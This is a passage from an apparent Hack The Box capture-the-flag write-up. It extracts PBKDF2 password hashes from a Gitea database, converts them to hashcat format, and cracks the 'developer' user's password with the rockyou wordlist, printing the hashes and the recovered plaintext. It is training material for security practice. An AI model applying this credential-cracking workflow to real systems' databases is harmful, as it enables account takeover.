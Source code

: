 I will be using the tool to convert it into hashcat format.

```bash
./giteaCracked.sh -d "_home_developer_gitea_data_gitea_gitea.db" -o "gitea.hashes"
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcxxxxxxxxxxxxxxxxxxxxxx
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/dxxxxxxxxxxxxxxxxxxxxxx
```

The format above is `user:sha256:<iteration>:<base64-salt>:<base64-password-hash>`

Now, I can use hashcat to crack the hashes but the hash is started with username so  will be giving `--user` to start with `PBKDF2`.

```bash
hashcat gitea.hash /usr/share/wordlists/rockyou.txt --user

hashcat (v6.2.6) starting in autodetect mode

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF
...[snip]...
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

```bash
hashcat gitea.hash /usr/share/wordlists/rockyou.txt --user --show

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

I successfully cracked the password for `developer` user.

If you want to understand the `cracking gitea hash` please checkout [__https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#crack-gitea-hash__](https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#crack-gitea-hash){:target="_blank"}.

![Developer shell](/assets/images/writeups/Titanic-HTB/17.png)
